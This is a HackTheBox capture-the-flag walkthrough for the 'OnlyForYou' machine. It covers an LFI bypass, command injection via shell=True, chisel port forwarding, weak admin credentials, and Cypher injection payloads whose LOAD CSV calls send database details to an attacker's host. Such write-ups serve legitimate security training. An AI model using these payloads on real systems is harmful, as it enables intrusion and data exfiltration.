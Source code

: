 <h3> OnlyForYou HackTheBox </h3>

Difficulty = Medium

Nmap Scan:
![image](https://user-images.githubusercontent.com/127159644/236711287-ceef7d4e-9e1b-4ac7-badc-ebe28f16d87c.png)

Update your */etc/hosts* file with the content of the domain name *only4you.htb*

Going over to the web server shows this
![image](https://user-images.githubusercontent.com/127159644/236711396-45b855af-4ddc-4ac6-87a5-352a24ba7d72.png)

Using *ffuf* I fuzzed for subdomain on the vhosts
![image](https://user-images.githubusercontent.com/127159644/236711542-c0362d61-3615-4337-964a-b9767825ec42.png)

Adding the new sub domain *beta.only4you.htb* to my */etc/hosts* file
![image](https://user-images.githubusercontent.com/127159644/236711590-70da737f-b94f-4e51-8266-b1b4124cf0de.png)

Checking the sub domain shows this
![image](https://user-images.githubusercontent.com/127159644/236711622-20a4ed18-e7fc-4ab4-9bef-115d93b2d1f5.png)

I downloaded the source code for this web instance
![image](https://user-images.githubusercontent.com/127159644/236711685-b024754b-a351-45b8-bc32-75ec0f69703e.png)

There's a file upload functon but I didn't particularly find it interesting cause it was rather secured to me 🤔

But here's the vulnerable part of the code
![image](https://user-images.githubusercontent.com/127159644/236711846-fd096b18-edfa-475a-bfe6-d9d867d0b989.png)

The user can query files for download and there's a prevention against LFI but we can still achieve file inclusion without using *../*
![image](https://user-images.githubusercontent.com/127159644/236712019-dbbffe0c-5cf4-445f-8518-c5e59f253816.png)

I made a [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/enumerate.py) to automate finding of files 

We know that the server is hosted on *Nginx* from *Wappalyzer Result*

![image](https://user-images.githubusercontent.com/127159644/236713368-0084a968-f8bf-44ae-b873-11e106219ef7.png)

And the default path for web server (vhost) config running nginx is */etc/nginx/sites-enabled/default*

Checking it shows the web path to the vhost which turns out to be */var/www/only4you.htb/ and /var/www/beta.only4you.htb*
![image](https://user-images.githubusercontent.com/127159644/236713662-546d441f-f348-44a7-acef-080cda872f97.png)

Now we can enumerate more files

Out of curiosity we can tell that the web server is built with python and since the sub domain for the vhost has app.py then the doman should also have 🤔

Checking it shows that it's indeed there */var/www/only4you.htb/app.py*
![image](https://user-images.githubusercontent.com/127159644/236714308-46607e76-c122-4a0e-8a53-6525a37cf52b.png)
![image](https://user-images.githubusercontent.com/127159644/236714364-b44ee2ea-8bb5-4fb7-952d-59821593c155.png)

Looking at the code we can see that it is built on the *form* module 

Lets fetch the *form* module at */var/www/only4you.htb/form.py*
![image](https://user-images.githubusercontent.com/127159644/236714557-7fcf1c9c-a224-4d83-a68a-8e58ef829055.png)
![image](https://user-images.githubusercontent.com/127159644/236714641-daefa71d-a6bc-4502-a434-8d267d7dab9b.png)

Looking at the code we can see that it does:

```python
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

So far that variable shell is set to True we can basically inject command which will lead to command injection and maybe shell :D

Lets test it out
![image](https://user-images.githubusercontent.com/127159644/236715685-48a2499c-7918-4999-b4d0-20e46cf07711.png)

It works cool here's the [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/execute.py) that I made for it

Using it to get shell works
![image](https://user-images.githubusercontent.com/127159644/236715962-cef7b857-8b75-4845-bb32-d01a8c914c0f.png)

Here's how I stabilized my shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Checking the internal ports avaiable shows that a service is running on port 3000 and 8001
![image](https://user-images.githubusercontent.com/127159644/236716251-7e6f788d-86ce-4c4b-93a9-bad02d10b5a0.png)

Lets port forward using chisel shall we 🙂
![image](https://user-images.githubusercontent.com/127159644/236716419-626c5220-9a6a-4150-aeab-5ff3d51a0891.png)

```bash
Command:

Host: chisel server -p 9001 --reverse
Target: ./chisel client {host}:9001 R:3000:127.0.0.1:3000 &
```

We can confirm that it was successfully port forwarded by scanning our host
![image](https://user-images.githubusercontent.com/127159644/236716902-a733ac13-25e0-4a9f-9c1e-e3b7e3f67f08.png)

Now lets see what it contains or rather what it is 😅
![image](https://user-images.githubusercontent.com/127159644/236717017-4ae503d5-2697-4403-8c33-8eee48cc1f4d.png)

Hmmmm that's an instance of Gogs

I checked /explore to see if i can get any repo but i didn't tho i got two users which were *John and Administrator*
![image](https://user-images.githubusercontent.com/127159644/236717468-98e81d97-39c4-4766-9876-cfe9f608b44c.png)

Nothing much we can do now

Lets port forward the service on port 8001 and see what we can fetch 

After I did that (the same i port forwarded earlier) looking at the page shows this
![image](https://user-images.githubusercontent.com/127159644/236717677-1742d53a-3490-4f89-ad45-e317176d5214.png)

Trying weak cred *admin:admin* works
![image](https://user-images.githubusercontent.com/127159644/236717758-e9528367-0261-48b4-bfe9-62c79d54b704.png)

Poking around I saw the notes left by the admin
![image](https://user-images.githubusercontent.com/127159644/236717899-c48aa7c2-60f8-45d9-9d1e-2ac70d875c8d.png)

The db is based of neo4j interesting 🤔

There's a search function of the web app
![image](https://user-images.githubusercontent.com/127159644/236717977-991faca1-807d-4ac0-9506-617505ffc1fb.png)

Looking for how to exploit neo4j database leads to Cypher Injection here's the [source](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j)

We can test with this query through Burpsuite to know the version, then url encode and send it a web server hosted by us.

```sql
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.175/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

Trying the query leaks the version
![image](https://user-images.githubusercontent.com/127159644/236718595-8bf9d822-d889-4245-b196-6c50ed12e07b.png)
![image](https://user-images.githubusercontent.com/127159644/236718623-4da759bb-625a-4114-8357-512c73ff0cef.png)

Now lets get the list of tables

```sql
'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.175/?label='+label as l RETURN 0 as _0 //
```

![image](https://user-images.githubusercontent.com/127159644/236719094-e295b16d-f40e-40da-b8a2-5d9665fb25a9.png)
![image](https://user-images.githubusercontent.com/127159644/236719119-0536de45-fbd8-409d-9061-66992e1759ba.png)


